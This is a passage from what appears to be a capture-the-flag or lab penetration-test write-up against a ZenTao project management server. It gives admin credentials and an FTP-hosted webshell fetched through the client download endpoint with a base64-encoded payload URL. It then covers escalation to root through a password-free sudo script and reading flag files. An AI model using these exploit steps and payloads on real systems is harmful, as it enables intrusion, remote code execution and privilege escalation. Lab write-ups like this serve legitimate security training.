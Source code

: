 Get username: admin Password: qazwsx123
Successfully login to the backend with the password.

! [img](https://p5.ssl.qhimg.com/t01a413115582cbab0c.png)

There is a hint in the upper right corner

! [img](https://p4.ssl.qhimg.com/t012fcb64925a806861.png)

Now that we have the backend access, let's start GETSHELL!

Start an FTP service, in this case using the python module: `python -m pyftpdlib -d /root/ftp -p 21` Note that you have to store the webshell file in the /root/ftp directory in advance.

! [img](https://p1.ssl.qhimg.com/t0122ae7126a0e8852e.png)

The service has been successfully turned on as shown above.
The FTP webshell address is `ftp://192.168.174.128/shell.php` then base64 encrypt the address.
Then build the payload and access it:
`http://192.168.174.132/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC4xNzQuMTI4L3NoZWxsLnBocA==`
It shows that the save was successful.

! [img](https://p0.ssl.qhimg.com/t01449c4d65bb24825d.png)

Webshell connection address: `http://192.168.174.132/data/client/1/shell.php`.

! [img](https://p4.ssl.qhimg.com/t019a0f091dd238b992.png)

Connected successfully!
Check the shell permissions for www-data

! [img](https://p5.ssl.qhimg.com/t01fe0dfb0e433afefd.png)

Do the usual `sudo -l` to see that

! [img](https://p4.ssl.qhimg.com/t01e08f59617a428674.png)

You can see that the file /var/www/html/zentaopms/www/tips.sh can be executed without password and with any permissions.
Let's try to write `whoami` in the file and execute it. Find that there is no such file? Never mind, we can create one ourselves and `chmod +x /var/www/html/zentaopms/www/tips.sh` to give execute permission.

! [img](https://p0.ssl.qhimg.com/t0110af710af49ae813.png)

Then we can do a global search for the flag-related filenames.
Write `find / -name “*flag*”` in the file and execute.

! [img](https://p0.ssl.qhimg.com/t014cf57df8d09577f6.png)

Then look at the flag file, write cat /root/flag1.txt in the file and execute.

! [img](https://p1.ssl.qhimg.com/t014e6beb50c6fe837d.png)

Get the first target!

 

## Intranet infiltration of OA system
